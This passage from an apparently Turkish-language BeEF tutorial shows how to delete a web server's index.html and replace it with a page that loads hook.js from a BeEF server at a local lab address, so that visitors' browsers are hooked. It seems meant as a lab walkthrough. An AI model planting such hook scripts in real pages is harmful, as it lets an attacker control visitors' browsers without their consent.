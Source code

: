 <figure><img src="assets/beef/image19.png" alt="" width="541"><figcaption></figcaption></figure>

hook.js dosyasını not ettikten sonra /var/www/html altında bulunan dosyayı düzenleyebiliriz. Öncelikle istediğimiz dizine gidip orada bulunan index.html'i silmek istiyorum. Sonrasında kendi index.html dosyamı oluşturacağım. Sırasıyla şu komutlarla devam ediyoruz.

```
cd /var/www/html
sudo rm index.html
nano index.html
```

Açılan pencereye şu html templateini yapıştırıyoruz.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="http://192.168.19.138:3000/hook.js"></script>
    <!-- UST KISMA SIZIN hook.js LINKINIZ GELICEK-->
</head>
<body>

    <h3>Kişisel WEB sitesi</h3>

    <p>Lorem Ipsum Lorem Ipsum</p>

</body>
</html>
```

